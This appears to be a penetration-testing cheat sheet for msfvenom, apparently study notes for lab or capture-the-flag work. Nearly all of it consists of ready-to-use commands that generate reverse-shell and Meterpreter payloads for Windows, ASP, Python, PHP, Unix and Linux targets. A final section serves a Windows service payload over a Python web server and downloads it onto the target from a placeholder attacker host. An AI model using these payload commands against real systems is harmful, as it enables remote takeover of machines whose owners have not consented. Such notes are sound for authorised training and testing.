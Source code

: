 # **Output formats**
```
msfvenom --list formats
```

# Payloads
## Payload Naming Conventions
```sh
<OS>/<arch>/<payload>
```

Stageless reverse shell for an x86 Linux target
```sh
linux/x86/shell_reverse_tcp
```

Windows 32bit targets
- exception, the arch is not specified
```sh
windows/shell_reverse_tcp
```
## Reverse payloads
- you will need to **have the** exploit/multi/**handler module listening** on your attacking machine to work as a handler
- You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters.
- These values will be the same you have used when creating the msfvenom payload.

| Option                                                                                          | Description |
| ----------------------------------------------------------------------------------------------- | ----------- |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe` | Windows     |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp` | ASP         |
| `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`          | Python      |
| `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`     | PHP         |
| `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`                                | Unix        |
Linux - Executable and Linkable Format (elf)
- staged
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
- The .elf format is comparable to the .exe format in Windows
```bash
chmod +x shell.elf
./shell.elf
```

### Windows
Exe-service
- Exe-service payload and serve it through a python webserver:
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4747 -f exe-service -o rev-svc.exe

python3 -m http.server
```
- Pull the payload from Powershell
```powershell
wget http://ATTACKER_IP:4848/rev-svc.exe -O rev-svc.exe
```
